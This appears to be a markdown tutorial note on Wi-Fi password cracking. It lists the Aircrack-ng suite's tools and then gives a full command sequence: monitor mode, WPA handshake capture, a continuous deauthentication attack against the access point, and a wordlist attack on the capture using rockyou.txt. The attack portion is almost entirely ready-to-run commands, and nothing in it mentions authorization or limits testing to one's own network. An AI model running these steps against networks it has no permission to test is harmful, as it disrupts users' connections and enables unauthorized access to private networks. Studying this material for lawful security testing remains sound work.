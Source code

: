 #hacking #wifi
https://www.youtube.com/watch?v=WfYxrLaqlN8

# Main documentation

## Aircrack-ng suite

-   [airbase-ng](https://www.aircrack-ng.org/doku.php?id=airbase-ng "airbase-ng") -- Multi-purpose tool aimed at attacking clients as opposed to the Access Point (AP) itself.
-   [aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng "aircrack-ng") -- 802.11 WEP and WPA/WPA2-PSK key cracking program.
-   [airdecap-ng](https://www.aircrack-ng.org/doku.php?id=airdecap-ng "airdecap-ng") -- Decrypt WEP/WPA/WPA2 capture files.
-   [airdecloak-ng](https://www.aircrack-ng.org/doku.php?id=airdecloak-ng "airdecloak-ng") -- Remove WEP Cloaking™ from a packet capture file.
-   [airdrop-ng](https://www.aircrack-ng.org/doku.php?id=airdrop-ng "airdrop-ng") -- A rule based wireless deauthication tool.
-   [aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng "aireplay-ng") -- Inject and replay wireless frames.
-   [airgraph-ng](https://www.aircrack-ng.org/doku.php?id=airgraph-ng "airgraph-ng") -- Graph wireless networks.
-   [airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng "airmon-ng") -- Enable and disable monitor mode on wireless interfaces.
-   [airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng "airodump-ng") -- Capture raw 802.11 frames.
-   [airolib-ng](https://www.aircrack-ng.org/doku.php?id=airolib-ng "airolib-ng") -- Precompute WPA/WPA2 passphrases in a database to use it later with aircrack-ng.
-   [airserv-ng](https://www.aircrack-ng.org/doku.php?id=airserv-ng "airserv-ng") -- Wireless card TCP/IP server which allows multiple application to use a wireless card.
-   [airtun-ng](https://www.aircrack-ng.org/doku.php?id=airtun-ng "airtun-ng") -- Virtual tunnel interface creator.
-   [packetforge-ng](https://www.aircrack-ng.org/doku.php?id=packetforge-ng "packetforge-ng") -- Create various type of encrypted packets that can be used for injection.

-   [Other tools](https://www.aircrack-ng.org/doku.php?id=tools "Other tools") - WZCook and ivstools

## Aircrack-ng suite (unstable/experimental tools)

-   [easside-ng](https://www.aircrack-ng.org/doku.php?id=easside-ng "easside-ng") -- Auto-magic tool which allows you to communicate to an WEP-encrypted Access Point without knowing the key.
-   [tkiptun-ng](https://www.aircrack-ng.org/doku.php?id=tkiptun-ng "tkiptun-ng") -- Proof-of-concept implementation the WPA/TKIP attack: inject a few frames into a WPA TKIP network with QoS
-   [wesside-ng](https://www.aircrack-ng.org/doku.php?id=wesside-ng "wesside-ng") -- Auto-magic tool which incorporates a number of techniques to seamlessly obtain a WEP key in minutes.

## Other Documentation

-   [Compatibility, Drivers, Which Card to Purchase](https://www.aircrack-ng.org/doku.php?id=compatibility_drivers "Compatibility, Drivers, Which Card to Purchase")
-   Installing the [aircrack-ng suite](https://www.aircrack-ng.org/doku.php?id=install_aircrack "Install Aircrack-ng suite") and the [drivers](https://www.aircrack-ng.org/doku.php?id=install_drivers "Install drivers")
-   [Tutorials](https://www.aircrack-ng.org/doku.php?id=tutorial "Tutorials")
-   [FAQ](https://www.aircrack-ng.org/doku.php?id=faq "FAQ and Troubleshooting") - Frequently Asked Questions and Troubleshooting
-   [Videos](https://www.aircrack-ng.org/doku.php?id=videos "Videos")
-   [User Documentation by Platform (Linux, Windows)](https://www.aircrack-ng.org/doku.php?id=user_docs "User Documentation by Platform (Linux, Windows)")
-   [Links, References and Other Learning Materials](https://www.aircrack-ng.org/doku.php?id=links "Links, References and Other Learning Materials")


# Commands used:

**See version of Kali**
cat /etc/os-release
uname -a

**See interfaces**
ip addr
iwconfig

**kill processes**
sudo airmon-ng check kill

**Start monitor mode**
sudo airmon-ng start wlan0

**Verify that monitor mode is used**
sudo airmon-ng 

**You could also use iwconfig to check that interface is in monitor mode:**
iwconfig

**Get the AP's MAC address and channel**
sudo airodump-ng wlan0mon

**AP-MAC & channel - you need to select your own here:**
ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2

**1st Window:**
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something 
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

**2nd Window - deauth attack**
!Make sure you replace the bssid with your own
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

**Use Wireshark to open hack file**
wireshark hack1-01.cap
!Filter Wireshark messages for EAPOL
eapol

**Stop monitor mode**
airmon-ng stop wlan0mon

**Crack file with Rock you or another wordlist
Make sure you have rockyou in text format (unzip file on Kali)**
**Replace hack1-01.cap with your file name**
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 

